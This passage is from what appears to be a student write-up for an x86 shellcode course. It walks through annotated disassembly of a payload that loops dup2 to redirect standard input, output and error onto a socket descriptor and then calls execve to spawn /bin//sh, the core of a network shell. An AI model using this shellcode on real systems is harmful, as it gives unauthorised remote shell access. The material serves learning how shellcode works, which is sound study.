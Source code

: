 [dup2](https://man7.org/linux/man-pages/man2/dup.2.html){:target="_blank"}
{% highlight js %}
00000020  5F                pop edi;sockfd saved edi
00000021  89FB              mov ebx,edi; sockfd being saved to ebx for dup2, oldfd
00000023  6A02              push byte +0x2; set ecx to 2, dup2 2,1,0 (stdin, stdout, stderr)
00000025  59                pop ecx; new fd
00000026  6A3F              push byte +0x3f ;dup2 call
00000028  58                pop eax; set eax to 0x3f
00000029  CD80              int 0x80
0000002B  49                dec ecx; decrease ecx by 1
0000002C  79F8              jns 0x26; loop from 2 to 0
{% endhighlight %}

[Execve](https://man7.org/linux/man-pages/man2/execve.2.html){:target="_blank"}
{% highlight js %}
0000002E  6A0B              push byte +0xb ;call the execve sys call to execute the /bin//sh
00000030  58                pop eax ;eax set to 11
00000031  99                cdq ;edx set to 0
00000032  52                push edx; push edx onto stack
00000033  682F2F7368        push dword 0x68732f2f; //sh
00000038  682F62696E        push dword 0x6e69622f; /bin
0000003D  89E3              mov ebx,esp;ebx stores the stack pointer
0000003F  52                push edx ;push edx onto the stack
00000040  53                push ebx ;push ebx onto the stack
00000041  89E1              mov ecx,esp ; ecx stores the stack pointer, argv[]
00000043  CD80              int 0x80; stack: [address]0/bin//sh0
{% endhighlight %}

You can find all the above code at [here](https://github.com/allan9595/SLAE-Assignments/tree/master/assignment5){:target="_blank"}.

Thanks for reading :)
